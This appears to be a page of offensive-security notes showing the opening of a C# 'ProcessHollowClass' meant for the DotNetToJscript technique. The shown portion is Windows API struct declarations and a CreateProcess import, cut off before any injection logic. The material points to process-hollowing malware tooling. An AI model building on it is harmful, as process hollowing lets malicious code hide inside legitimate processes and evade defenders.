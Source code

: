 ### DotNetToJscript

```csharp

using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

[ComVisible(true)]
public class ProcessHollowClass
{

    // http://www.pinvoke.net/default.aspx/Structures/SECURITY_ATTRIBUTES.html
    [StructLayout(LayoutKind.Sequential)]
    public struct SECURITY_ATTRIBUTES
    {
        public int nLength;
        public IntPtr lpSecurityDescriptor;
        public int bInheritHandle;
    }

    // http://www.pinvoke.net/default.aspx/Structures/STARTUPINFO.html
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    struct STARTUPINFO
    {
        public Int32 cb;
        public string lpReserved;
        public string lpDesktop;
        public string lpTitle;
        public Int32 dwX;
        public Int32 dwY;
        public Int32 dwXSize;
        public Int32 dwYSize;
        public Int32 dwXCountChars;
        public Int32 dwYCountChars;
        public Int32 dwFillAttribute;
        public Int32 dwFlags;
        public Int16 wShowWindow;
        public Int16 cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }

    // http://www.pinvoke.net/default.aspx/Structures/PROCESS_INFORMATION.html
    [StructLayout(LayoutKind.Sequential)]
    internal struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public int dwProcessId;
        public int dwThreadId;
    }

    // http://www.pinvoke.net/default.aspx/kernel32/CreateProcess.html
    [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
    static extern bool CreateProcess(
        string lpApplicationName,
```